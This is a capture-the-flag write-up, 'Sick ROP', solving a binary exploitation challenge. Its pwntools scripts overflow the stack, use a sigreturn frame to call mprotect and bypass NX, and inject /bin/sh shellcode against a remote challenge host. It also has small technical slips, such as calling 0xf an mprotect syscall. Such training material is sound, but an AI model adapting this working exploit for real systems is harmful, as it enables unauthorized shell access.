

# Sick ROP 

## 1. Information gathering
Bin doesn't seem to be complicated, it only has its _start and vuln() function with read and write helpers.



Also NX there is enabled..  
  
So we cannot execute own shellcode from stack.  
  

By running binary with GDB we can see that there is overflow which will cause SEG fault  
  

With pattern create 100/offset we see that overflow occurs after 40b and something to notice: RAX holds exactly our 100 + \n length (0x65).  
Therefore we are able to control RSB (stack pointer) and RAX (return value) so may be able to do some rop chaining here.  

## 2. Testing theory 
Using pwntools with python, we can write code to test if we are able to control RIP by setting offset + vuln function address + new RIP:  
```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"AAAAA")
p.recv(timeout=1)
p.interactive()
```

  
Here we can see that totally can control RIP with this.  
But to be able to execute shellcode with rop chaining, we need 2 main gadgets: sigreturn syscall and syscall return.  

  
Here we see syscall; ret; address 0x401014  
As we seen before, we were able to control RAX value which is needed to call sigreturn syscall:
```
sigreturn syscall gadget: rax=0xf; syscall
```  
By changing our code to:

```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
We can see that our RAX value is now indeed 0xf (mtproctect syscall).


## 3. Building ROP chain

Next for building SigreturnFrame, we need couple more things: base address of bin and vuln() functions PTR, base address can be founded with GDB: vmmap  
  
and vuln functions pointer with gdb find VULN_ADDR  
  

Now we can build our mtprotect call:  
```
from pwn import *
p = process(['gdb-peda', './sick_rop'])
context.arch = "amd64"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.interactive()
p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
  
Here we can now see that NX is bypassed! 
We also passed some A chars which we can see has ptr as: 0x4010b8 where our shellcode will be placed!  
Next we need shellcode, I will use shellstroms 23B shellcode for this, next we just build this all up:  
```
from pwn import *
#p = process(['gdb-peda','./sick_rop'])
p = remote("159.65.27.79",32030)
context.arch = "amd64"

# shellcode, length 23B
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)

p.sendline(shellcode + b'\x90' * (40-len(shellcode)) + p64(0x4010b8))
p.recv()
p.interactive()
```

  
And there we have it!


